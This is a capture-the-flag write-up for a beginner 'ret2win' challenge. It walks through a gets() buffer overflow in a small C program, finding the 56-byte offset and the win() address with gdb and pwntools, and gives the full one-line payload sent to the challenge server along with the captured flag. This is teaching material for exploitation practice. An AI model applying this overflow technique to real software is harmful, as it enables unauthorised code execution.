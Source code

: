Coming Soon!
**Please call 1-500-WIN to get the flag!**

> Category: Pwn
>
> You might have heard of buffer overflows, but do you know how to exploit them?
> 
> The goal of this challenge is to overwrite main's return pointer which is stored on the stack, with the address of the win() function. There are several good (and > bad) tutorials on how to do this online. Googeling for example ret2win or binary exploitation buffer overflow might be a good place to start.
> 
> nc io.ept.gg 30022

We are given a c-file (pwn2.c in this directory).
By looking at the **main**-function, we can see that the program uses gets(), which is vulnerable to a buffer overflow.
We also see that there is a function, **win**, which prints out the flag if we can get it to run.
We can overwrite the return address to return to the **win**-function, to print out the flag.


# Breaking the program  #
First we need to find out when the program breaks. We see that the buffer gets() writes into is 40 bytes. We try to write different amount of 'A's to find out exactly when the program breaks. 
```
python3 -c "print('A'*60)" | ./pwn2
Enter some text: 
Segmentation fault (core dumped)
```
We can see that the program seg-faults when we write 60 bytes. By trying some more we find out that the program seg-fauls at 57 bytes, but not 56. This means that at byte 57 we start overwriting the return address in EIP.

We must know the funciton-address of the win-function we want the program to run. We can use gdb to find the function-address.
We set a breakpoint in the program at the main function, and disassemble the win function.
```
> b main 
> run
> disass win
```
> 0x0000000000401314 <+0>:	endbr64 
> 
> 0x0000000000401318 <+4>:	push   %rbp
> 
> 0x0000000000401319 <+5>:	mov    %rsp,%rbp
> 
> 0x000000000040131c <+8>:	sub    $0x110,%rsp

We see that the win-function has the address 0x401314, which is the value we want to write into the EIP-register.

We cannot write 401314 directly into the EIP-register, because we need padding (also endian notation). We can use pwntools to do the 64-bit padding and endian notation for use:
```
>>> from pwn import *
>>> p64(0x401314)
b'\x14\x13@\x00\x00\x00\x00\x00'
```
We now have the amount of 'A's to reach the point where we write over the EIP-register, we also have the address to write into that register. 
We combine the two together and get the following:

``` 
python3 -c "print('A'*56 + '\x14\x13@\x00\x00\x00\x00\x00')" | nc io.ept.gg 30022
```

We get out the flag:
> EPT{congratulations_y0u_win!}

